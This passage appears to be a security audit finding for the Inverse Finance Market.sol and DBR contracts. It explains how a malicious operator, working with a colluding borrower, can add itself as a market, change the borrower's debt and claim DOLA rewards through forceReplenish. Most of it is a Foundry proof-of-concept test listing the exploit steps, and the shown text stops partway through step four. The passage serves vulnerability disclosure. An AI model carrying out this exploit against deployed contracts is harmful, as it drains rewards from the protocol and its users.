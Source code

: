 The [defict](https://github.com/code-423n4/2022-10-inverse/blob/3e81f0f5908ea99b36e6ab72f13488bbfe622183/src/Market.sol#L560) call in ```Market.sol::forceReplenish()``` could be manipulated since the malicious operator controls the ```DBR:debts``` therefore controls users deficit.

It is possible to get Dola rewards.

```
// Market.t.sol
// forge test -m "test_ModifyDebtOfAnUserAsOperatorAndGetDolaRewards" -vvv

function test_ModifyDebtOfAnUserAsOperatorAndGetDolaRewards() public {
    //
    // 1. create a borrow from a colluded user and create their debt
    // 2. As a operator assign myself as a "market" with the "addMarket" function
    // 3. As a malicious operator increment/decrement the debt of the step 1 user calling the dbr.onBorrow()/dbr.onRepay() in order to manipulate the user's deficit and pass the forceReplenish validation.
    // 4. As a colluded user do a "replenish" and get Dola rewards with forceReplenish
    // 5. Repeat steps 3, 4 and get more rewards.
    //
    // 1. Create a borrow from a colluded user
    //
    uint amountToDeposit = 1 ether / 4;
    gibWeth(user, amountToDeposit);
    // Deposit 0.25 as our collateral
    vm.startPrank(user);
    deposit(amountToDeposit);
    // Ask for borrow.
    uint amountToBorrow = 10 ether;
    market.borrow(amountToBorrow);
    // Assert the user debt for 10 ether
    assertEq(dbr.debts(user), 10 ether);
    assertEq(DOLA.balanceOf(user), 10 ether);
    // Pass two days
    vm.warp(block.timestamp + 2 days);
    // As a user do a replenish for all the deficit token.
    market.forceReplenish(user, dbr.deficitOf(user));
    // We receive a reward in Dola becuase we replenish our deficit
    assertEq(DOLA.balanceOf(user), 10002739726027397260 wei);
    // Our debt is 10.05
    assertEq(dbr.debts(user), 10054794520547945205 wei);
    vm.stopPrank();

    //
    // 2. As an operator assign myself as a "market"
    //
    // Assign myself as a "market"
    vm.startPrank(operator);
    dbr.addMarket(operator);
    //
    // 3. AS a malicious operator increment debt to the user
    //
    dbr.onBorrow(user, 10054794520547945205 wei);
    // Now check the debt balance of the user in DBR
    assertEq(dbr.debts(user), 20109589041095890410 wei);
    // Now check the debt balance of the user in Market.sol and is unbalanced
    assertEq(market.debts(user), 10054794520547945205 wei);
    vm.stopPrank();

    //
    // 4. As a colluded user, do a "replenish" and can get DOLA rewards
    //
    vm.warp(block.timestamp + 3 days);
    console.log(dbr.deficitOf(user));
    vm.startPrank(user);
```